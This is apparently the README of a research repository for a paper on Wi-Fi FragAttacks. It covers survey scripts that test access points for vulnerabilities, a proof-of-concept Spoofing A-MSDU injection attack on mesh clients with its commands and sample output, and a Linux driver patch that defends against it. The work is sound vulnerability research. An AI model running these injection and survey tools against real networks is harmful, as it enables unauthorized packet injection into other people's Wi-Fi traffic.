

# Fragile Frames: Wi-Fi’s Fraught Fight Against FragAttacks

This repository contains the code and some of the data used in the paper *Fragile Frames: Wi-Fi’s Fraught Fight Against FragAttacks*. The code was utilized for conducting Wi-Fi surveys, analyzing the data collected during the surveys, and for bypassing and improving the _Spoofing A-MSDU_ defense in mesh networks (CVE-2025-27558).

## 1. Table of Contents

- [1. Table of Concents](#toc)
- [2. FragAttack Survey](#survey)
	- [2.1. Detailed Survey Results](#survey-results)
	- [2.2. Prerequisites](#survey-prerequisites)
	- [2.3. Usage of the Code](#survey-usage)
	- [2.4. Other Remarks](#survey-other)
- [3. Mesh A-MSDU Attack and Defense](#mesh)
	- [3.1. Proof-of-Concept Attack](#mesh-poc)
	- [3.2. Proof-of-Concept Defence](#mesh-defence)

## 2. FragAttack Survey

### 2.1. Detailed Survey Results

Table 1 in our paper gives the percentage of vulnerable APs out of those that met the test preconditions, i.e., out of the actual tested APs. The below table contains exactly how many APs were vulnerable followed by exactly how many APs were tested. Notice that the _Plain. full_ (CVE-2020-
26140) and _Plain. frag._ (CVE-2020-26143) tests have the same preconditions.

### 2.2. Prerequisites

To conduct the Wi-Fi surveys, a PC running the Python scripts and two Wi-Fi dongles are necessary.

The Python scripts are built upon the 'fragattacks' repository by Mathy Vanhoef. Ensure that all [preconditions described in that repository are met](https://github.com/vanhoefm/fragattacks?tab=readme-ov-file#3-prerequisites) before running the script. In particular, ensure to use the patched FragAttack drivers are used, or that a recent kernel is used that by-default includes the needed [driver injection patches](https://github.com/vanhoefm/wifi-injection). This is necessary, because (older) drivers may otherwise overwrite fields of injected frames, in particular the fragment number field, causing some of our test to no longer work.

### 2.3. Usage of the Code

The core functionality of the code is in `main.py`, which relies on `tests.py` for functions that construct Wi-Fi frames used in the tests. Since surveys may need to be conducted in segments due to factors like battery limitations or device disconnections, the collected data must be merged before analysis. This can be done using the `combine.py` script.

The `analyse.py` file contains code for analyzing the data. This file creates an `analysis.txt` file that provides insights into the collected data.

Before running the scripts, you must specify the names and addresses of the Wi-Fi dongles in the `main.py` file.

If everything is configured properly, the code will have output as follows:

### 2.4. Other Remarks

- During our survey, we also captured beacon and probe responses to afterwards be able to query for network properties. This can be done using the command `sudo tcpdump -ni wlan3 -w capture.pcap "wlan[0] == 0x50 || wlan[0] == 0x8`.
- Among other things, we inspected the beacon and probe responses for SSP A-MSDU support. This support be advertised in the RSN and/or RSNX element. The files [`spp_amsdu_rsn.pcapng`](spp_amsdu_rsn.pcapng) and [`spp_amsdu_rsnx.pcapng`](spp_amsdu_rsnx.pcapng) contain examples of this, respectively.
	- Support advertised in the RSNX element can be detected using the filter `(wlan.rsn.capabilities & 0x0400) != 0`.
	- Support advertised in the RSNX element can be detected using the filter `wlan.rsnx.spp_amsdu_capable == True`.

## 3. Mesh A-MSDU Attack and Defense

### 3.1. Proof-of-Concept Attack

The directory `hostap-mesh-poc` contains our proof-of-concept attack against mesh networks, which performs the _Spoofing A-MSDU_ attack against a mesh client. All the commands below are relative, i.e., inside, this directory.

To execute this experiment, first compile our modified `wpa_supplicant` code and initialize a Python virtual environment. This only needs to be done once:

	cd wpa_supplicant
	cp defconfig .config
	make -j 4

	cd ../research
	python3 -m venv venv
	source venv/bin/activate
	pip install -r libwifi/requirements.txt

We patched `wpa_supplicant` so our python script can easily access the negotiated session keys used by a mesh client, which enables us to more easily verify that an attack succeeded.

In our experiments we used virtualized Wi-Fi network cards, which can be added as follows on most Linux distributions:

	# First turn Wi-Fi off in your network manager
	sudo modprobe mac80211_hwsim radios=4
	sudo rfkill unblock wifi
	sudo ifconfig hwsim0 up

Finally, you can start the first mesh client:

	cd research
	sudo ../wpa_supplicant/wpa_supplicant -i wlan1 -c mesh1.conf

And then you can start the attacker's mesh client, which will perform the attack:

	sudo su
	source venv/bin/activate
	./client.py wlan1 wlan2

This python script has as first argument the network interface of the victim, and as second argument the network interface of the attacker. This allows the script to monitor the network interface of the victim to automatically detect whether the _Spoofing A-MSDU_ attack successfully injected a packet.

The following output will be shown in the attack succeeded:

	...
	wlan2: Control interface command 'GET tk'wlan2: Control interface command 'GET tk'
	CTRL_IFACE GET 'tk'
	CTRL-DEBUG: ctrl_sock-sendto: sock=13 sndbuf=212992 outq=0 send_len=32
	>>> Got key 1af69c3678d775cfb6f5faf78ff9e0b2
	RTM_NEWLINK: ifi_index=4 ifname=wlan1 operstate=6 linkmode=1 ifi_family=0 ifi_flags=0x11043 ([UP][RUNNING][LOWER_UP])

	>>> Sending simulated attacker IPv4 single MSDU marked but marked as A-MSDU...

	Plaintext: <Dot11  subtype=QoS Data type=Data FCfield=to-DS+from-DS addr1=02:00:00:00:00:00 (RA) addr2=02:00:00:00:01:00 (TA) addr3=02:00:00:00:00:00 (DA) SC=80 addr4=02:00:00:00:01:00 (BSSID) |<Dot11QoS  TXOP=1 |<Dot11MeshControl  ttl=31 seqnum=6002 |<LLC  dsap=0xaa ssap=0xaa ctrl=3 |<SNAP  code=IPv4 |<IP  |<Raw  load=b'\x00\x00' |<Ether  dst=02:00:00:00:00:00 src=02:00:00:00:01:00 type=0x4500 |<Dot11MeshControl  ttl=31 seqnum=6002 |<LLC  dsap=0xaa ssap=0xaa ctrl=3 |<SNAP  code=IPv4 |<IP  frag=0 proto=udp src=1.2.3.4 dst=5.6.7.8 |<UDP  |<Raw  load=b'Simulated A-MSDU attack injection' |>>>>>>>>>>>>>>
	Encrypted: <Dot11  subtype=QoS Data type=Data FCfield=to-DS+from-DS+protected addr1=02:00:00:00:00:00 (RA) addr2=02:00:00:00:01:00 (TA) addr3=02:00:00:00:00:00 (BSSID) SC=80 addr4=02:00:00:00:01:00 (BSSID) |<Dot11QoS  A_MSDU_Present=1 TXOP=1 |<Dot11CCMP  PN0=5 PN1=0 key_id=0 ext_iv=1 PN2=0 PN3=0 PN4=0 PN5=0 |<Raw  load=b'\x84\x04/\xa2LV\x9dp\x94t]h\x9f\x88_X0\xac\x93e\x89\xd2\xdfp\x94\xf7\xefT\xe6$t\xabU\xa2Vu#\xf1\xf4\xebO\x0eo\xb6\x17sBq\xb7L\xa7H\xde1\x0c\xe2K\xa74\x17S\x9e\n\x98\x96M\xee\xee\xf5P\xee5VW`\x8b\x975o\x18\xbd]\xf3\xdb}\xc7\xa6a^q\xb1]e?:.t|*k\x03\xa8\xa6P\x8bYj\xf5\xb2\xc7\xc9%\xc6}K\xf6\xe6O\xe7\xbc\\M\xc7\xab?' |<Raw  load=b'\x13\x91ex\x12\xf4\x81\xa4' |>>>>>
	RTM_NEWLINK: ifi_index=9 ifname=monwlan2 operstate=0 linkmode=0 ifi_family=0 ifi_flags=0x11043 ([UP][RUNNING][LOWER_UP])
	.
	Sent 1 packets.
	RTM_NEWLINK: ifi_index=9 ifname=monwlan2 operstate=0 linkmode=0 ifi_family=0 ifi_flags=0x11043 ([UP][RUNNING][LOWER_UP])

	>>> ATTACK WORKED! Received injected packet

	<IP  version=4 ihl=5 tos=0x0 len=61 id=1 flags= frag=0 ttl=64 proto=udp chksum=0x6a9c src=1.2.3.4 dst=5.6.7.8 |<UDP  sport=domain dport=domain len=41 chksum=0xa671 |<DNS  id=21353 qr=0 opcode=13 aa=1 tc=0 rd=1 ra=0 z=1 ad=1 cd=1 rcode=refused qdcount=27745 ancount=29797 nscount=25632 arcount=16685 qd=[<DNSQR  qname=b'.' qtype=17493 unicastresponse=0 qclass=8289 |>, <DNSQR  qname=b'.' qtype=24931 unicastresponse=0 qclass=27424 |>, <DNSQR  qname=b'.' qtype=27237 unicastresponse=0 qclass=25460 |>, <Raw  load=b'ion' |>] |>>>

If the attack fails, e.g., if you used the modified drivers below to prevent attacks, the following output will eventually be shown:

	>> Couldn't detect injected packet. Client looks secure.

You can also manually confirm that the attack worked by running a network sniffer on the interface of the victim, which in the above examples was `wlan1`. You can also monitor the special interface `hwsim0` that displays all raw Wi-Fi frames of the virtual network cards.

### 3.2. Proof-of-Concept Defence

The directory `linux-driver-backports-6.1.110` contains modified Linux drivers that defend against the _Spoofing A-MSDU_ attack (CVE-2020-24588) in the context of mesh networks. It is compatible with Linux kernels 6.1 and below. To compile and install these drivers, execute the following:

	cd linux-driver-backports-6.1.110
	make defconfig-hwsim
	make -j 4
	sudo make install

This compiles only the virtual `mac80211_hwsim` driver that we used in our experiments. If you also want to test our networks cards, then another defconfig file such as `defconfig-wifi` which compiles all backported wireless drivers.

Specifically, the following patch prevents the attack:

	commit 884bb914b4f4829d7c5bb3ff3f874b1721effa57 (HEAD -> main)
	Author: Anonymous
	Date:   Sat Mar 8 22:21:13 2025 +0100

	    backports: prevent A-MSDU attacks in mesh networks
	    
	    This patch is a mitigation to prevent the A-MSDU vulnerability, also
	    known under CVE-2020-24588, for mesh networks. This is done by treating
	    the frame as a standard MSDU, calculating the lenght of the Mesh Control
	    header, and seeing if the 6 bytes after this header equal the start of
	    an rfc1042 header.
	    
	    This defense was tested against a network that uses an empty Mesh
	    Address Extension field, i.e., when four addresses are used.

	diff --git a/linux-driver-backports-6.1.110/net/wireless/util.c b/linux-driver-backports-6.1.110/net/wireless/util.c
	index c71b85f..6b9902f 100644
	--- a/linux-driver-backports-6.1.110/net/wireless/util.c
	+++ b/linux-driver-backports-6.1.110/net/wireless/util.c
	@@ -813,6 +813,29 @@ bool ieee80211_is_valid_amsdu(struct sk_buff *skb, bool mesh_hdr)
	 }
	 EXPORT_SYMBOL(ieee80211_is_valid_amsdu);
	 
	+static bool detect_amsdu_aggregation_attack(struct ethhdr *eth, struct sk_buff *skb, enum nl80211_iftype iftype)
	+{
	+       int offset;
	+
	+       /** Non-mesh case can be directly compared */
	+       if (iftype != NL80211_IFTYPE_MESH_POINT)
	+               return memcmp(eth->h_dest, rfc1042_header, 6) == 0;
	+
	+       offset = __ieee80211_get_mesh_hdrlen(eth->h_dest[0]);
	+       if (offset == 6) {
	+               /** Mesh case with empty address extension field */
	+               return memcmp(eth->h_source, rfc1042_header, 6) == 0;
	+       } else if (offset + 6 <= skb->len) {
	+               /** Mesh case with non-empty address extension field */
	+               uint8_t temp[6];
	+
	+               skb_copy_bits(skb, offset, temp, 6);
	+               return memcmp(temp, rfc1042_header, 6) == 0;
	+       }
	+
	+       return false;
	+}
	+
	 void ieee80211_amsdu_to_8023s(struct sk_buff *skb, struct sk_buff_head *list,
		                      const u8 *addr, enum nl80211_iftype iftype,
		                      const unsigned int extra_headroom,
	@@ -858,7 +881,7 @@ void ieee80211_amsdu_to_8023s(struct sk_buff *skb, struct sk_buff_head *list,
		        if (subframe_len > remaining)
		                goto purge;
		        /* mitigate A-MSDU aggregation injection attacks */
	-               if (ether_addr_equal(hdr.eth.h_dest, rfc1042_header))
	+               if (offset == 0 && detect_amsdu_aggregation_attack(&hdr.eth, skb, iftype))
		                goto purge;
	 
		        offset += sizeof(struct ethhdr);

